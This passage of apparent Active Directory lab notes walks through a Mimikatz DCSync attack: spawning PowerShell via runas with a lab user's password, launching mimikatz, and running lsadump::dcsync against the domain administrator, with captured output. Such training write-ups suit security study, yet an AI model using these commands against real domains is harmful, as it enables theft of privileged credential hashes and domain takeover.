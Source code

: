 ### **Mimikatz DCSync Overview**

Mimikatz provides the `lsadump::dcsync` command for DCSync attacks from Windows. Unlike secretsdump.py, Mimikatz:
- Targets **specific users** (not bulk extraction)
- Must be **run in context** of privileged user
- Provides **detailed credential information**
- Shows **password history** and **supplemental credentials**

### **Authentication with runas.exe**

```cmd
# Open Command Prompt as Administrator
# Use runas to spawn PowerShell as adunn
runas /netonly /user:INLANEFREIGHT\adunn powershell
# When prompted, enter: SyncMaster757
```

**Real Output:**
```cmd
C:\Users\htb-student>runas /netonly /user:INLANEFREIGHT\adunn powershell

Enter the password for INLANEFREIGHT\adunn:SyncMaster757
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```

### **Mimikatz DCSync Execution**

```powershell
# Navigate to Mimikatz directory
cd C:\Tools\mimikatz\x64\

# Launch Mimikatz
.\mimikatz.exe
```

**Mimikatz Startup:**
```
  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

#### **DCSync Specific User**
```
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

**Real Output:**
```
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
```